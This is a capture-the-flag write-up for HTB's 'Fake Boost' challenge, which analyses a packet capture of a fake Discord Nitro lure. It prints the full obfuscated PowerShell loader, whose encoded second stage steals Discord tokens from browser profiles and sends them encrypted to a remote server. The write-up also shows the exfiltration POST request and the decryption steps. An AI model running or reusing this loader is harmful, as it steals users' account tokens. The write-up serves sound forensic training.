




# HTB Cyber Apocalypse 2024: Hacker Royale - Fake Boost

## Challenge

> In the shadow of The Fray, a new test called ""Fake Boost"" whispers promises of free Discord Nitro perks. It's a trap, set in a world where nothing comes without a cost. As factions clash and alliances shift, the truth behind Fake Boost could be the key to survival or downfall. Will your faction see through the deception? KORP™ challenges you to discern reality from illusion in this cunning trial.

## Metadata

- Difficulty: easy
- Creator: `gordic`
- Files: [`capture.pcapng`](files/capture.pcapng)
- Docker: no
- Tags: `pcap`, `wireshark`, `powershell`, `obfuscation`, `encryption`
- Points: `300`
- Number of solvers: 

## Solution

### Initial analysis

We got a packet capture.

If we search for `HTTP` we can find an unencrypted `HTTP` request and response:





```http
GET /freediscordnitro HTTP/1.1
Host: 192.168.116.135:8080
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en
Accept-Encoding: gzip, deflate

HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.10.12
Date: Sat, 02 Mar 2024 18:11:55 GMT
Content-Disposition: attachment; filename=discordnitro.ps1
Content-Type: application/octet-stream
Content-Length: 8526
Last-Modified: Sat, 02 Mar 2024 17:29:47 GMT
Cache-Control: no-cache
ETag: "1709400587.6259556-8526-1669141932"
Date: Sat, 02 Mar 2024 18:11:55 GMT
Connection: close

$jozeq3n = "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gACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIK0AIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgAiCN8yX8BCIg8yXf91XfxFIv81XfxFIv81Xf91XcBCIv81XfxFIgw3X891Xcx3Xv8FXgw3XcBCffxyXfxFIgw3X89yXf9FXf91Xc9yXf9FffxHIv81XfxHI891XfxFff91XcBCI89Ffgw3XcpQD8BCIf91Xc91XvAyLu8CIv8Ffgw1Xf91Lg8iLgwHIp8FKgwHI8BCffxHI8BCfgACX8BCfgwHI89FKgwHI8BCfgkyXoACffhCIcByXfxFI89CIvwHI8ByLf9FIg8yXfBCI8BCfgwHI8BCfK0Afgw3XvAyLg8CIvACI8BCfvACI8BCIvAyLgACIgwFIfByLf91Jgw3XfBCfgwHIgBiLgwHI8BCYfByLf91JgwHXg8FIv81Xg8Cff9FIvACfgwHI8BCfgwFIfByLcByXg8yXfdCI89FIgwnCNwHI89CIvcyLg8CInAGfgcyL8BCfn8CIvAyJgBCIg81XfByXfByXg8Ffgw3X8BCfcBCI8BCfgw3XfByXfByXgAyXf9FIf91XgAyXf9FIfxHI8BCfgwHIg81XfBCIf91Xg81Xg8FIfxHI8pQD8BCIg8CIcBCIf9FIvwHIg8FIgwHXgAyXfByLgACIgACIgACIgACIgwHIp8FKgwHIcBCfgwHI8BCIgACIgACIgACIgACIgACIgACIgkyXoACIfBCI8BCIgACIgACIgACIgACff91XgACfK0AIf91XgACIf91Xf9FIg81Xf91XgAyXf91XfBCIgACIgACIgACIgACIg8FIfByXgACIfBCIg8FIgACIgACIgACIgACIgACIgACIgACIg8FIf91Xf91XgACIgACIgACIgACIgAyXf91Xf9lCNICI0N3bI1SZ0lmcXpQDK0QfK0QKhRXYExGb1ZGJocmbpJHdTRjNlNXYC9GV6oTX0JXZ252bD5SblR3c5N1W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" ;
$s0yAY2gmHVNFd7QZ = $jozeq3n.ToCharArray() ; [array]::Reverse($s0yAY2gmHVNFd7QZ) ; -join $s0yAY2gmHVNFd7QZ 2>&1> $null ;
$LOaDcODEoPX3ZoUgP2T6cvl3KEK = [sYSTeM.TeXt.ENcODING]::UTf8.geTSTRiNG([SYSTEm.cOnVeRT]::FRoMBaSe64sTRing("$s0yAY2gmHVNFd7QZ")) ;
$U9COA51JG8eTcHhs0YFxrQ3j = "Inv"+"OKe"+"-EX"+"pRe"+"SSI"+"On" ; New-alIaS -Name pWn -VaLuE $U9COA51JG8eTcHhs0YFxrQ3j -FoRcE ; pWn $lOADcODEoPX3ZoUgP2T6cvl3KEK ;
```

It is an obfuscated PowerShell snippet ([`discordnitro-stage1.ps1`](discordnitro-stage1.ps1)). We have to do the following to get the second stage:
- Reverse the characters of `$jozeq3n`
- Base64 decode the result

We get a new PowerShell script which is executed using `Invoke-Expression` ([`discordnitro-stage2.ps1`](discordnitro-stage2.ps1))

### First part of the flag

The first part if the flag is in the `$part1` variable Base64 encoded:

```powershell
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"
```
```
HTB{fr33_N17r0G3n_3xp053d!_
```

The stage two payload does the following:
- It iterates through the known `Google Chrome`, `Brave`, `Opera` and `Firefox` folders
- It tries to find Discord authentication tokens in these folders
- With each identified token it requests the `https://discord.com/api/v9/users/@me` endpoint
- Then, the snippet encrypts the Discord user data with a hardcoded key using AES-CBC with PKCS7 padding and sends it to the remote server (`http://192.168.116.135:8080/rj1893rj1joijdkajwda`)

Stream 48 is a `POST` request containing the encrypted data:



```http
POST /rj1893rj1joijdkajwda HTTP/1.1
Content-Type: text/plain
User-Agent: Mozilla/5.0
Host: 192.168.116.135:8080
Content-Length: 728
Connection: Keep-Alive

bEG+rGcRyYKeqlzXb0QVVRvFp5E9vmlSSG3pvDTAGoba05Uxvepwv++0uWe1Mn4LiIInZiNC/ES1tS7Smzmbc99Vcd9h51KgA5Rs1t8T55Er5ic4FloBzQ7tpinw99kC380WRaWcq1Cc8iQ6lZBP/yqJuLsfLTpSY3yIeSwq8Z9tusv5uWvd9E9V0Hh2Bwk5LDMYnywZw64hsH8yuE/u/lMvP4gb+OsHHBPcWXqdb4DliwhWwblDhJB4022UC2eEMI0fcHe1xBzBSNyY8xqpoyaAaRHiTxTZaLkrfhDUgm+c0zOEN8byhOifZhCJqS7tfoTHUL4Vh+1AeBTTUTprtdbmq3YUhX6ADTrEBi5gXQbSI5r1wz3r37A71Z4pHHnAoJTO0urqIChpBihFWfYsdoMmO77vZmdNPDo1Ug2jynZzQ/NkrcoNArBNIfboiBnbmCvFc1xwHFGL4JPdje8s3cM2KP2EDL3799VqJw3lWoFX0oBgkFi+DRKfom20XdECpIzW9idJ0eurxLxeGS4JI3n3jl4fIVDzwvdYr+h6uiBUReApqRe1BasR8enV4aNo+IvsdnhzRih+rpqdtCTWTjlzUXE0YSTknxiRiBfYttRulO6zx4SvJNpZ1qOkS1UW20/2xUO3yy76Wh9JPDCV7OMvIhEHDFh/F/jvR2yt9RTFId+zRt12Bfyjbi8ret7QN07dlpIcppKKI8yNzqB4FA==


HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.10.12
Date: Sat, 02 Mar 2024 18:12:50 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2
Connection: close

OK
```

We can decrypt the payload using the following parameters in CyberChef:
- Base64 encoded key: `Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k=`
- The IV is the first 16 bytes of the payload: `6c41beac6711c9829eaa5cd76f441555`
- The ciphertext is the rest
- The default mode of `System.Security.Cryptography.AesManaged` is `CBC`



```json
[
    {
        "ID":  "1212103240066535494",
        "Email":  "YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9",
        "GlobalName":  "phreaks_admin",
        "Token":  "MoIxtjEwMz20M5ArNjUzNTQ5NA.Gw3-GW.bGyEkOVlZCsfQ8-6FQnxc9sMa15h7UP3cCOFNk"
    },
    {
        "ID":  "1212103240066535494",
        "Email":  "YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9",
        "GlobalName":  "phreaks_admin",
        "Token":  "MoIxtjEwMz20M5ArNjUzNTQ5NA.Gw3-GW.bGyEkOVlZCsfQ8-6FQnxc9sMa15h7UP3cCOFNk"
    }
]
```

### Second part of the flag

The second part of the flag is the Base64 encoded email: `YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9`

Which is:
`b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}`

### The Flag

The concatenation of the two parts gives the final flag.

Flag: `HTB{fr33_N17r0G3n_3xp053d!_b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}`